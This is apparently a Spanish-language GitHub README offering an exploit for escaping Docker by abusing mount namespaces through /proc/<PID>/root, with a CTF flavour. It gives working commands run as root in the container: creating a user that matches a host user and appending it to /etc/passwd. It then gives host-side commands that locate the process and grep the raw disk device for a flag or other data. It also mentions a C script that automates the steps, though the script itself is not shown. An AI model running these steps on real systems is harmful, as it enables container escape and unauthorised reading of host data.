 # Abusing mount namespaces through /proc/<PID>/root

En este repositorio vengo a automatizar la tecnica de los espacios de nombres para escapar de un Docker y elevar privilegios/sacar la flag/dumpear data, etcetera. Pueden leer con mas detalle esta tecnica [aqui](https://labs.withsecure.com/publications/abusing-the-access-to-mount-namespaces-through-procpidroot). Para poder realizar esta tecnica con exito necesitas cumplir los siguientes requisitos.

- Shell como usuario no privilgiado en el host
- Shell como root en el Docker.

Explotacion:

**Los siguientes pasos debes correrlos en el Docker como root.**

``` shell
useradd luk4s # Este usuario debe existir en la maquina host.
usermod -aG luk4s luk4s
echo "luk4s:x:1000:1000:luk4s:/home/luk4s:/bin/bash" >> /etc/passwd # El contenido lo podemos sacar de la maquina hosts utilizando -> grep luk4s /etc/paswd
su luk4s
/bin/sh # Este comando lo ejecutamos cuando ganamos shell como luk4s en el contenedor
```

Con esto ya tenemos listo el trabajo en el contenedor.

**Los siguientes comandos debes ejecutarlo de la maquina hosts.**

``` shell
ps aux | grep sh # Vas a notar un proceso que corre tu usuario con una sh, este fue el proceso que creaste tu en el contenedor
grep -a "flag" /proc/<pid>/root/sda
```

PoC:

![](https://i.imgur.com/k1kJVE2.png)

## Automation

Programe un script en C el cual automatiza los pasos a seguir en el contenedor, si quieren usar el binario lo compilan utilizando `gcc` y lo suben al Docker.

``` shell
gcc exploit.c -o exploit
```

Thanks for reading :)
